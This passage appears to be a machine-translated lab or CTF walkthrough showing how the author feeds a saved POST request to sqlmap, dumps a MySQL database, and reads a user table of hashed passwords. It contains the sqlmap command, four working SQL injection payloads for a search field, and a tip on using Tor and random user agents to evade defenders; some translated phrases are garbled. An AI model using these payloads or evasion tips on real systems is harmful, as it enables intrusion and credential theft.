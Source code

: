 **图 4:带有潜在 SQL 注入向量的 POST 请求。**

我将原始(图 4b)请求的文本字段(图 4a)的内容保存到一个文本文档中。该请求可以传递给一个名为 [sqlmap (n.d.)](https://sqlmap.org/) 的工具，该工具可以自动化利用 SQL 注入漏洞向量的过程。为此，我在我的攻击箱上启动了一个终端，将目录更改为我的游戏区项目文件，并使用以下参数启动`sqlmap`:

```
**└─$ sqlmap --random-agent -r requests.txt --dbms=mysql --dump**
```

`-r`标志指定我刚才保存请求文本文件，`--dbms`标志指定目标系统正在运行的数据库管理系统(在本例中是 MySQL),`--dump`标志指示`sqlmap`转储整个数据库。

最后，`--random-agent`标志指示`sqlmap`使用随机的浏览器用户代理字符串，这可能会迷惑任何正在寻找黑客的系统管理员或安全分析师。 **Protip:** 在真实世界 red 组队约定中，`--tor`标志可用于通过 Tor 匿名软件( [Tor Project，n.d.](https://www.torproject.org/) )隧道`sqlmap`请求和网络流量，这可进一步迷惑任何系统管理员或安全分析师。

`sqlmap`报告了以下关于已确定的 SQL 注入种类的信息:

```
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: searchitem (POST)
  Type: boolean-based blind
    Title: OR boolean-based blind — WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-2335' OR 7043=7043# Type: error-based
    Title: MySQL >= 5.6 AND error-based -- WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=dna deniers' AND GTID_SUBSET(CONCAT(0x716b627171,(SELECT (ELT(7775=7775,1))),0x71786a7871),7775)-- aOTf Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=dna deniers' AND (SELECT 1312 FROM (SELECT(SLEEP(5)))EjBJ)-- fvCO Type: UNION query
    Title: MySQL UNION query (NULL) -- 3 columns
    Payload: searchitem=dna deniers’ UNION ALL SELECT NULL,CONCAT(0x716b627171,0x6a41586165704d534f575655686848776e59524f666c767767504672656e4c50695148467942434e,0x71786a7871),NULL#
---
```

输入文本框易受四种不同的 SQL 注入攻击:基于联合查询的 SQL 注入、基于布尔的盲 SQL 注入、基于错误的 SQL 注入和基于时间的盲 SQL 注入。我不会讨论这些注入的技术方面，但对于任何对全面治疗感兴趣的人，我推荐《T21 SQL 注入攻击和防御》这本书。

在`sqlmap`完成从目标机器转储 MySQL 实例之后，我检查了它转储的表。我注意到两张桌子，一张是 T1 桌，另一张是 T2 桌。`post`表只包含视频游戏标题和对它们的描述。`user`表(图 5)有更多有用的信息:`username`和`pwd`字段——第二个字段是各自用户名的散列密码。

![](img/7ff2eb717ad7925a986696538817a3e3.png)

**图 5:**`user`**表转储的格式化表。**
